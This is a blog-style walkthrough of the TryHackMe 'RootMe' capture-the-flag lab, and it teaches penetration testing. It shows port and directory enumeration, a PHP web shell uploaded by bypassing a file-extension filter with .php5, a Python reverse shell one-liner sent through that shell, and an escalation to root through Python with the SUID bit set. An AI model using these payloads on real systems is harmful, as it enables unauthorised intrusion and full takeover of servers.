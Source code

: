 ```yaml
---
toc: true
comments: true
title: TryHackMe - RootMe
layout: post
title: TryHackMe - RootMe
date: 2023-10-03 20:45 -0300
categories: [TryHackMe, Easy, CTF]
tags: [FileUpload, PrivEsc]    
image: /assets/Posts/RootMe/11d59cb34397e986062eb515f4d32421.png
---
```


RootMe is a straightforward box over at THM. In this write-up, we'll cover the basics: enumerating the box, getting a reverse shell, and using SUID binaries to up our privileges.

Just a heads-up, any flags you come across in this write-up will be blurred to keep things fair and challenging for everyone in the room. 

## Enumeration
Let's kick things off by scanning for open ports. Oh, and if you notice the IP changing in this write-up, that's on me – I accidentally flipped the switch on the machine. Oops! 😄

```shell
$ sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.1.107
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-07 08:06 EST
Initiating SYN Stealth Scan at 08:06
Scanning 10.10.1.107 [65535 ports]
Discovered open port 80/tcp on 10.10.1.107
Discovered open port 22/tcp on 10.10.1.107
Completed SYN Stealth Scan at 08:07, 22.15s elapsed (65535 total ports)
Nmap scan report for 10.10.1.107
Host is up, received user-set (0.25s latency).
Scanned at 2023-11-07 08:06:47 EST for 22s
Not shown: 63595 closed tcp ports (reset), 1938 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```
We've got two ports open: 80 and 22. While we let the vulnerability script do its thing, it's time to roll up our sleeves and dive into port 80 via our  browser. 

We could run the following script to find CVEs if we are a bit stuck but lets try to keep it basic.

```shell
$ sudo nmap -p22,80- -T4 -v -Pn -sSVC --script=vuln 10.10.1.107
```

Additionally we will run a fuzzing scan for interesting directories. 

```shell
$ gobuster dir -u http://10.10.1.107 -w /usr/share/wordlists/SecLists/Fuzzing/fuzz-Bo0oM.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.1.107
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/SecLists/Fuzzing/fuzz-Bo0oM.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.ht_wsr.txt          (Status: 403) [Size: 276]
/.hta                 (Status: 403) [Size: 276]
/.htaccess            (Status: 403) [Size: 276]
/.htaccess-dev        (Status: 403) [Size: 276]
/.htaccess-local      (Status: 403) [Size: 276]
/.htaccess.BAK        (Status: 403) [Size: 276]
/.htaccess-marco      (Status: 403) [Size: 276]
/.htaccess.bak        (Status: 403) [Size: 276]
/.htaccess.orig       (Status: 403) [Size: 276]
/.htaccess.old        (Status: 403) [Size: 276]
/.htaccess.sample     (Status: 403) [Size: 276]
/.htaccess.bak1       (Status: 403) [Size: 276]
/.htaccess.save       (Status: 403) [Size: 276]
/.htaccess.txt        (Status: 403) [Size: 276]
/.htaccess_extra      (Status: 403) [Size: 276]
/.htaccess_orig       (Status: 403) [Size: 276]
/.htaccess_sc         (Status: 403) [Size: 276]
/.htaccessBAK         (Status: 403) [Size: 276]
/.htaccessOLD         (Status: 403) [Size: 276]
/.htaccessOLD2        (Status: 403) [Size: 276]
/.htaccess~           (Status: 403) [Size: 276]
/.htgroup             (Status: 403) [Size: 276]
/.htpasswd            (Status: 403) [Size: 276]
/.htusers             (Status: 403) [Size: 276]
/.htpasswd_test       (Status: 403) [Size: 276]
/.htpasswd-old        (Status: 403) [Size: 276]
/.httr-oauth          (Status: 403) [Size: 276]
/.htpasswds           (Status: 403) [Size: 276]
/index.php            (Status: 200) [Size: 616]
/js/                  (Status: 200) [Size: 957]
/panel                (Status: 301) [Size: 310] [--> http://10.10.1.107/panel/]
/panel/               (Status: 200) [Size: 732]
/server-status/       (Status: 403) [Size: 276]
/uploads/             (Status: 200) [Size: 742]
Progress: 4842 / 4843 (99.98%)
===============================================================
Finished
===============================================================
```

We got two interesting directories /panel/ and /uploads/

With that we can start checking the site.

## Explotation

![Desktop View](/assets/Posts/RootMe/1.png){: width="972" height="589" }
_Rootme index_

![Desktop View](/assets/Posts/RootMe/2.png){: width="972" height="589" }
_Rootme Panel_

The site features a single file upload panel that appears to accept all extensions except .php. This gives us a clue – let's try bypassing that filter and uploading a reverse shell. To do this, we'll employ Burp Suite Intruder and test various extensions to see what works.

Our shell code will look like this:

```php
 <?php system($_GET['cmd']);?>
```

The following screenshot illustrates the intercepted file upload process:

![Desktop View](/assets/Posts/RootMe/33.png){: width="972" height="589" }
_Intruder file upload extension bruteforce_

Following our upload attempt, the /uploads/ folder will be filled with various reverse shells. While most of them trigger file downloads, the one with a .php5 extension does the trick. With this shell in hand, we can explore the server's content by appending the query parameter ?cmd=ls to the URL.

![Desktop View](/assets/Posts/RootMe/44ReversedWithLS.png){: width="972" height="589" }
_Ls Working_

Now that we have a functioning shell, the next step is to establish a connection back to us. For this, we can visit a handy cheatsheet site like https://alamot.github.io/reverse_shells/ and simply copy a reverse shell script. In this instance, I chose the Python one, a common choice for boxes.

For that we open a listener port using netcat and modify the ip and port in the provided shell to connect back to us:

```shell
nc -lvp 8081 
```

```url
http://10.10.1.107/uploads/test.php5?cmd=python -c "import os,pty,socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('LHOST',LPORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.putenv('HISTFILE','/dev/null');pty.spawn(['/bin/bash','-i']);s.close();exit();"
```

After establishing our reverse shell, stabilizing it is crucial for a smoother exploration of the box. You can achieve this stability by using the following command:

```python
python -c 'import pty; pty.spawn("/bin/bash")'
```

This Python command spawns a more interactive and user-friendly shell.

With a stable shell, we can now search for the 'user.txt' flag using the following command:

```shell
find / -type f -iname user.txt 2> /dev/null
```

find: Initiates a search operation.
/: Specifies the starting directory for the search (root directory in this case).
-type f: Filters the search to files only.
-iname user.txt: Looks for files with the name 'user.txt' while ignoring letter case.
2> /dev/null: Redirects and suppresses any error messages, ensuring a cleaner output without distractions."

## Priv Esc

We also perform a similar search to identify potential privilege escalation opportunities:

```shell
find / -user root -perm /4000 2>/dev/null
```

Here's what each part of this command does:
/: Scans the entire device, starting from the root directory.
-type f: Restricts the search to files (ignoring directories).
-user root: Filters for files owned by the 'root' user.
-perm -4000: Searches for files with a minimum privilege level of 4000. In numerical representation, 4000 indicates that the SUID bit is set on the file, which is a common indicator of privilege escalation possibilities.
2>/dev/null: This part is optional but helps maintain a clean output by redirecting and suppressing any error messages, ensuring that any errors are discarded.

Alternatively, you can use the convenient linpeas.sh script, which automates the search for various misconfigurations, including the identification of files with the SUID bit set. In either case, the end result is the discovery of Python running with SUID privileges

![Desktop View](/assets/Posts/RootMe/linepeass.png){: width="972" height="589" }
_Linepeas_

After that we just need to scale to root using python. For that we go to gtfobins (as allways) and check for suid exploits: https://gtfobins.github.io/gtfobins/python/#suid 

```shell
bash-4.4$ python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
# whoami
whoami
root
```

## Conclusions 

This RootMe adventure served as an excellent learning experience, emphasizing the importance of thorough enumeration and the power of script-assisted enumeration in penetration testing.

_Keep hacking_  🙈🙉🙊 
